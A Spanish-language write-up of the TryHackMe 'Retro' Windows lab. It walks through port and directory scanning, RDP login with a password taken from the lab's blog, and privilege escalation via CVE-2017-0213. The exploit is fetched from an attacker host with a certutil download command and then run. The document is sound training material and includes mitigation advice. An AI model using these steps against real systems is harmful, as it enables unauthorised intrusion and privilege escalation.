







# Retro - Writeup

| Plataforma | S.O. | Dificultad | IP Objetivo | Temas Clave |
| :--- | :--- | :--- | :--- | :--- |
| TryHackMe | Windows | Fácil | `10.128.191.55` | IIS, Gobuster, RDP, CVE-2017-0213 (PrivEsc) |

## Reconocimiento y Enumeración

### Escaneo de puertos

```bash
nmap -sC -sV -Pn -p- 10.128.191.55
```



Se detectan los puertos 80 (web) y 3389 (RDP).

### Análisis web y directorios ocultos

Se accede a la web:


Se usa gobuster para buscar directorios:

```bash
gobuster dir -u http://10.128.191.55 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```



Se encuentra el directorio 'retro'.

En el blog, el usuario es 'wade'. El avatar es la contraseña:


El avatar es 'parzival':


## Explotación

### Acceso por RDP

El puerto 3389 está abierto. Se prueba acceso con:

**Usuario:** wade

**Contraseña:** parzival

```bash
xfreerdp /u:wade /p:parzival /v:10.128.191.55
```



## Post-Explotación y Escalada de Privilegios

### Escalada de privilegios

Abrimos una powershell y ponemos el siguiente comando:

```powershell
systeminfo
```

Con este comando podemos ver información sobre el sistema operativo, el nombre del equipo, el fabricante, el modelo, la versión del sistema operativo, entre otros detalles importantes que pueden ser útiles para la explotación de la máquina objetivo.


Investigando encontramos que para esta version existe la vulnerabilidad CVE-2017-0213 que es una vulnerabilidad de escalada de privilegios en el servicio de Windows que permite a un atacante obtener privilegios elevados en el sistema.
E investigando un poco mas encontramos en github un .exe llamado 'CVE-2017-0213_x64.exe' que es un exploit para esta vulnerabilidad. El siguiente paso es descargar este archivo en nuestra máquina atacante y luego transferirlo a la máquina objetivo para ejecutarlo y obtener privilegios elevados.

Asi que preparamos el archivo en nuestra maquina atacante para pasarlo a la maquina objetivo.

```bash
python3 -m http.server 80
```

 [Vulnerabilidad CVE-2017-0213 en GitHub](https://github.com/WindowsExploits/Exploits/tree/master/CVE-2017-0213)



Ahora desde un powershell en la máquina objetivo, descargamos el archivo de CVE-2017-0213_x64 utilizando el comando

```powershell
certutil -urlcache -f http://192.168.151.119/CVE-2017-0213_x64.exe CVE-2017-0213_x64.exe
```



Una vez descargado el archivo, lo ejecutamos para aprovechar la vulnerabilidad y obtener privilegios elevados en el sistema.

```powershell
CVE-2017-0213_x64.exe
```

## Mitigación y Recomendaciones

1. **Parches de Seguridad del Sistema Operativo**: Aplicar las actualizaciones de seguridad mensuales de Windows para corregir vulnerabilidades conocidas de escalada de privilegios local (como la vulnerabilidad CVE-2017-0213).
2. **Robustez de Contraseñas**: Evitar reutilizar contraseñas o nombres que aparezcan públicamente en el blog del sistema o en la intranet del servidor.
3. **Control de Descargas y Ejecución**: Restringir el uso administrativo de utilidades nativas como `certutil` para la descarga de binarios desconocidos y configurar políticas de AppLocker/Windows Defender para bloquear la ejecución de payloads no autorizados.

